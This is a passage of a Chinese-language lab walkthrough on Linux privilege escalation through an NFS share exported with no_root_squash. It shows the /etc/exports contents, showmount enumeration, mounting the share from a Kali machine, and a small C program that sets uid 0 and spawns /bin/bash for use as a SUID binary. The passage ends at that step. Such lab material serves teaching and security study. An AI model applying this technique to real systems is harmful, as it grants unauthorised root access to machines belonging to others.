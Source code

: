 ##  權限提升：NFS
共享文件夾和遠程管理界面（如 SSH 和 Telnet）也可以幫助您獲得目標系統的 root 訪問權限。某些情況下還需要同時使用這兩個向量，`例如在目標系統上找到根 SSH 私鑰並通過具有根權限的 SSH 連接，而不是嘗試提高當前用戶的權限級別`。         
        
NFS（網絡文件共享）配置保存在 /etc/exports 文件中。此文件是在 NFS 服務器安裝期間創建的，通常可供用戶讀取
```
karen@ip-10-10-114-222:/$ cat /etc/exports 
# /etc/exports: the access control list for filesystems which may be exported
#               to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#
/home/backup *(rw,sync,insecure,no_root_squash,no_subtree_check)
/tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)
/home/ubuntu/sharedfolder *(rw,sync,insecure,no_root_squash,no_subtree_check)

```
此權限提升向量的關鍵元素是您可以在上面看到的`no_root_squash`選項。


### 1 
枚舉目標機器的可掛載共享
```
┌──(kali㉿kali)-[~]
└─$ showmount -e 10.10.114.222
Export list for 10.10.114.222:
/home/ubuntu/sharedfolder *
/tmp                      *
/home/backup              *

```
### 2 
把一個“no_root_squash”共享掛載到我們的攻擊機器上並開始構建我們的可執行文件。
```
┌──(root💀kali)-[/tmp]
└─# mkdir backattack
                                                                                     
┌──(root💀kali)-[/tmp]
└─# mount -o rw 10.10.114.222:/tmp /tmp/backattack 
                                      
```
### 3 
由於我們可以設置 SUID 位，a simple executable that will run /bin/bash on the target system will do the job
`代碼`
```
┌──(root💀kali)-[/tmp/backattack]
└─# cat nfs.c  
int main()
{
        setgid(0);
        setuid(0);
        system("/bin/bash");
        return 0;
}

```
